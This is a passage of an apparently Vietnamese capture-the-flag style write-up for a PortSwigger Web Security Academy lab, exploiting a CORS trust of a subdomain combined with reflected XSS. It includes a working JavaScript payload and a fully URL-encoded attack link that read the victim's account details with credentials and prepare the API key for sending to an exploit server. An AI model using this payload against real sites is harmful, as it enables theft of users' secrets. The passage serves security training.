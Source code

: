 Hơn nữa, khi gửi request để lấy API với header Origin là subdomain stock của website, ta nhận được CORS header từ response header

![Untitled](writeup_media/Untitled%2011.png)

→ ta có thể sử dụng lỗ hổng XSS trên subdomain stock để thực hiện lấy API

Test script để lấy API, nếu thành công thì API sẽ được log vào console

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = 'json';
    req.open('get', 'https://0aff00590428ed98c0032fb4009c0041.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        console.log('https://exploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net/exploit?APIkey=' + req.response.apikey);
    };
</script>
```

URL encode và gửi vào param `productId`, ta được URL như sau

```
https://stock.0aff00590428ed98c0032fb4009c0041.web-security-academy.net/?productId=%3Cscript%3E%0a%20%20%20%20var%20req%20%3d%20new%20XMLHttpRequest()%3b%0a%20%20%20%20req.onload%20%3d%20reqListener%3b%0a%20%20%20%20req.responseType%20%3d%20%27json%27%3b%0a%20%20%20%20req.open(%27get%27%2c%20%27https%3a%2f%2f0aff00590428ed98c0032fb4009c0041.web-security-academy.net%2faccountDetails%27%2c%20true)%3b%0a%20%20%20%20req.withCredentials%20%3d%20true%3b%0a%20%20%20%20req.send()%3b%0a%20%20%20%20%0a%20%20%20%20function%20reqListener()%20{%0a%20%20%20%20%20%20%20%20console.log(%27https%3a%2f%2fexploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net%2fexploit%3fAPIkey%3d%27%20%2b%20req.response.apikey)%3b%0a%20%20%20%20}%3b%0a%3C%2fscript%3E&storeId=1
```

Vào Exploit server, viết script để victim tự động chuyển hướng đến trang stock bị XSS
